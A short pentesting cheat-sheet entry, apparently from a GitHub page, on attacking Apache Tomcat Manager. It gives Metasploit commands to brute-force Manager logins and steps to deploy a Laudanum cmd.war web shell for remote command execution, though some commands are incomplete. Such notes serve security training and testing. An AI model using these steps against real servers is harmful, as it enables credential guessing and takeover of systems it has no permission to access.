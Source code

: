 # Apache Tomcat

Runnong on TCP/8180

`Tomcat Manager` is section on web application that allow administrator to views settings for internal tomcat configuration, system statistics quickly and our purposes.

Brute force credentials

```sh
use auxiliary/scanner/http/tomcat_mgr_login
set STOP_ON_SUCCESS
```

Malicious `.war` deployment with Laudanum allow us to control the server and remote command execution.

```sh
cp /usr/share/laudanum/jsp/cmd.war
```

Now check if the application `cmd` is available in the upper section of the Manager interface.
If the application deployed correctly visite the page

```
http[s]://domain.com:[PORT]/cmd/cmd.jsp
```